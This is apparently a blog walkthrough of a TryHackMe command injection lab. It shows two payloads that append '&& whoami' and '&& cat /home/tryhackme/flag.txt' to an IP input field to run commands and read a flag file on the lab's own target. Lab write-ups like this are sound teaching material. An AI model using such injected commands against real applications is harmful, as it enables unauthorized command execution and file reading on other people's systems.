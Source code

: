 ```yaml
--- 
draft: false
date: 2022-03-11T07:31:08+01:00
title: "Command Injection - Tryhackme"
description: "Tryhackme Walkthrough"
slug: ""
authors: ""
tags:
- Tryhackme
- Walkthrough
images:

  - url: 
    alt: 
categories: ""
externalLink: ""
series: ""
---
```

In this post, I'll be walking you through how to complete [Task 5](https://tryhackme.com/room/oscommandinjection) of the command injection room.

<!--more-->

### Practical: Command Injection (Deploy)

![Practical](room.png)

### Question1
What user is this application running as? 

payload:
```bash
IP && whoami
```

![User](rce.png)

### Question2
What are the contents of the flag located in /home/tryhackme/flag.txt?

payload:
```bash
IP && cat /home/tryhackme/flag.txt
```

![Flag](flag.png)

Go forth and become worldclass🚀
